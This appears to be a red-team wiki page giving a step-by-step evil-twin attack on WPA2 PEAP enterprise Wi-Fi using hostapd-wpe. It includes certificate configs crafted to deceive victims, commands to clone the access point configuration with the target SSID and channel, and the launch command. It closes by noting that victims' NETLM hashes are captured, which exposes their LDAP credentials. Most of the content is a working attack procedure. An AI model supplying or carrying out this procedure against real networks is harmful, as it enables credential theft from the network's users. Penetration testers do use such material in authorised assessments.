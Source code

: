 # WPA/WPA2 PEAP (Enterprise)

In networks with WPA2 PEAP which means Enterprise don't use a pre shared key, the users authenticate with the LDAP credentials. As the router or AP doesn't know if the credentials are correct or not, it delegate to a RADIUS server. The handshake can't not be capture because the authentication is not completed by the server so instead of capturing the handshake we will create a `EvilTwin` but in this case with authentication (Which we are interesting to capture, remember that there are LDAP credentials).

![WPA2 PEAP Message Exchange](../../.gitbook/assets/wpa2\_peap.gif)

## EvilTwin

To carry out this task, we are going to use `hostapd-wpe` software.

### Configuring Certificates

First we need to aclare that when the user will authenticate to our fake AP, some information about the certificate will be displayed, in order to cheat our víctims, the certificate will seems as much real as posible.

So we need to modify the following files:

* /etc/hostapd-wpe/certs/server.cnf

```
[server]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = admin@redteam.com
commonName              = "Certificado de Red Team Inc."
```

* /etc/hostapd-wpe/certs/client.cnf

```
[client]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = user@redteam.com
commonName              = user@redteam.com
```

* /etc/hostapd-wpe/certs/ca.cnf

```
[certificate_authority]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = admin@redteam.com
commonName              = "Entidad certificadora de Red Team Inc."
```

Finally, we just need to create it with `bootstrap`.

```
/etc/hostapd-wpe/certs/bootstrap
```

### Configuring te Fake AP

Onced configured and created the certificates, the final step is to configure our FAKE AP. We need to create a backup of the default hostapd config file and modify it.

```
cp /etc/hostapd-wpe/hostapd-wpe.conf /etc/hostapd-wpe/redteam.conf
vim /etc/hostapd-wpe/redteam.conf

#Modify the following values:

interface=<IFACE>
ssid=<ESSID>
channel=<CHANNEL>
```

### Launch & wait for s3crets

Finally, just launch the `hostapd-wpe` indicating the modified configuration file.

```
hostapd-wpe /etc/hostapd-wpe/redteam.conf
```

When the victim falls into our trap, we can obtain their NETLM hash.
